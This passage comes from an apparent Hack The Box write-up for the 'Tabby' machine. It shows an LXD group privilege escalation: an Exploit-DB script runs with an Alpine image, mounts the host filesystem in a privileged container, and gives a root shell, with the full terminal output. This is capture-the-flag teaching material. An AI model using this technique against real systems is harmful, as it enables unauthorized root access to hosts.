 `$ sed -i 's/\r$//g' lxd_privesc.sh`

Transfer the created `.tar.gz` archive to Tabby as well as the privilege escalation script from exploit DB. Then run the exploit on the victim machine.

```
ash@tabby:~$ bash lxd_privesc.sh -f alpine-v3.12-x86_64-20201112_1734.tar.gz

If this is your first time running LXD on this machine, you should also run: lxd init
To start your first instance, try: lxc launch ubuntu:18.04

[*] Listing images...

+--------+--------------+--------+-------------------------------+--------------+-----------+--------+-------------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |          UPLOAD DATE          |
+--------+--------------+--------+-------------------------------+--------------+-----------+--------+-------------------------------+
| alpine | 57f74df4f94a | no     | alpine v3.12 (20201112_17:34) | x86_64       | CONTAINER | 3.05MB | Nov 12, 2020 at 11:28pm (UTC) |
+--------+--------------+--------+-------------------------------+--------------+-----------+--------+-------------------------------+
Creating privesc
Device giveMeRoot added to privesc
~ # whoami
root
~ # ls /mnt/root/root
root.txt  snap
~ # 
```

The file system of the victim machine has been mounted in the `/mnt` directory of the Linux Container we just created, in which we have root. Getting the system flag is as simple as reading it from the `/mnt/root/root` directory from within the container.



[1-enum-http-1-homepage]: /assets/images/htb/machines/tabby/1-enum-http-1-homepage.png
[1-enum-http-2-possible-LFI]: /assets/images/htb/machines/tabby/1-enum-http-2-possible-LFI.png
[1-enum-http-3-LFI-confirmed]: /assets/images/htb/machines/tabby/1-enum-http-3-LFI-confirmed.png
[2-enum-tomcat-1-default-page]: /assets/images/htb/machines/tabby/2-enum-tomcat-1-default-page.png
[2-enum-tomcat-2-manager-401-error]: /assets/images/htb/machines/tabby/2-enum-tomcat-2-manager-401-error.png